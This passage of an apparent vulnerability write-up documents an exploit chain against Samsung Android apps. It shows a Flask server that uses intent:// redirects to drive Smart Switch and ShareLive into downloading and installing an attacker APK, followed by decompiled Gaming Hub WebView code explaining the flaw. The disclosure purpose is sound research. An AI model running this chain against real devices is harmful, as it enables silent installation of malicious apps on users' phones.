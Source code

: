 ```
    return redirect("intent://#Intent;component=com.sec.android.easyMover.Agent/.ui.SsmUpdateCheckActivity;action=com.sec.android.easyMover.Agent.WATCH_INSTALL_SMART_SWITCH;S.MODE=DIALOG;S.ssm_action=yayactionyay;S.ssm_uri=%63%6f%6e%74%65%6e%74%3a%2f%2f%63%6f%6d%2e%73%61%6d%73%75%6e%67%2e%67%70%75%77%61%74%63%68%61%70%70%2e%48%74%6d%6c%44%75%6d%70%50%72%6f%76%69%64%65%72%2f%79%61%79%2e%61%70%6b;end;", code=302)

# launch sharelive to stare aware service
@app.route('/yaylaunchshareliveyay')
def yaylaunchshareliveyay():
    return redirect("intent://#Intent;component=com.samsung.android.app.sharelive/.presentation.main.MainActivity;end;", code=302)

# sharelive to download yay.apk to arbitrary location
@app.route('/yayshareliveyay')
def yayshareliveyay():
    yayqrcodeyay = "88AKqZwy2Hmr"
    return redirect("intent://qr.quickshare.samsungcloud.com/" + yayqrcodeyay + "#Intent;component=com.samsung.android.app.sharelive/com.samsung.android.app.sharelive.presentation.applink.QrCodeAppLinkActivity;scheme=https;end;", code=302)

# launch drozer
@app.route('/yaylaunchyay')
def yaylaunchyay():
    return redirect("intent://#Intent;component=com.yaydevhackmodyay.drozer/com.mwr.dz.activities.MainActivity;end;", code=302)

# pichu dancing
@app.route('/pichu-dance.gif')
def pichuDance():
    return send_from_directory('', 'pichu-dance.gif')

if __name__ == '__main__':
    context = ('cert.pem', 'key.pem')
    app.run(debug=True, port=8000, host="0.0.0.0")
```

#### Exploit Details

Continuing to exploit the Gaming Hub application, the loaded WebView contains code that will execute different actions based on the type of data that is received from the loaded web server.

When the WebView receives a 302 Redirect code from the web server, the class `com.samsung.android.game.gamehome.gmp.ui.web.o` method `shouldOverrideUrlLoading(WebView, WebResourceRequest)` is executed. From there, the redirection URL is analyzed.

If the redirection URL has a scheme value of `intent://`, then the URL is passed to class `com.samsung.android.game.gamehome.gmp.ui.web.GmpWebActivity` method `f(Uri, int)`.

```
public final class o extends WebViewClient {
    public final p a; // interface linked with GmpWebActivity
...
    public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
        boolean q;
        ...
        String yayschemeyay = request.getUrl().getScheme();
        Uri yayurlyay = request.getUrl();
        ...
        q = o.q("intent", yayschemeyay, true); // checks if first 2 objects match
        if (q) {
            this.a.f(url, a(yayurlyay)); // checks if the url authority value is either `instantplays` or `cloudgame`
            return true;
        }
```
